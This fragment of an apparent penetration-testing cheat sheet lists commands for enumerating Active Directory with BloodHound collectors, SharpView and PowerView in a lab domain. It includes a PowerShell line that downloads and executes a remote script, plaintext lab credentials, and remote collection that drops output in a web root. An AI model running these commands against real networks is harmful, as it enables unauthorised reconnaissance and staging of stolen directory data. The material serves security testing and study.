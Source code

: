 - **BloodHound GitHub Repository**: [BloodHoundAD](https://github.com/BloodHoundAD/BloodHound)

#### BloodHound Collectors

1. SharpHound (PowerShell-based collector):


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.ServicePointManager]::SecurityProtocol -bor [Net.SecurityProtocolType]::Tls12

iex (new-object net.webclient).downloadstring('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/refs/heads/master/Collectors/SharpHound.ps1');
```
2. Run BloodHound Python:
```bash
bloodhound-python  -d soheil.lab -u soheil -p P@ssw0rd1 -dc dc.soheil.lab -c all -ns 192.168.100.5 --zip
```
3. Invoke-BloodHound via PowerShell:
```
Invoke-BloodHound -CollectionMethod All
```

### **SharpView** (C# Alternative)

- **GitHub Repository**: [SharpView](https://github.com/tevora-threat/SharpView)

```
SharpHound.exe
```

```powershell
invoke-command -scriptblock {$env:Computername} -ComputerName dc -Credential soheil\soheil
```

```powershell
invoke-command -scriptblock ${function:Invoke-BloodHound -CollectionMethods all -OutputDirectory C:\inetpub\wwwroot\soheil.zip} -computername dc -credential soheil\setayesh
```


```
Invoke-BloodHound -CollectionMethod All -ExcludeDC
```

### **PowerView** (PowerShell-based AD Enumeration)

- **GitHub Repository**: [PowerSploit Recon/PowerView](https://github.com/ZeroDayLab/PowerSploit/blob/master/Recon/PowerView.ps1)
- Load the module:


```
. .\PowerView.ps1
```

**Active Directory Enumeration Commands**
#### General Commands:
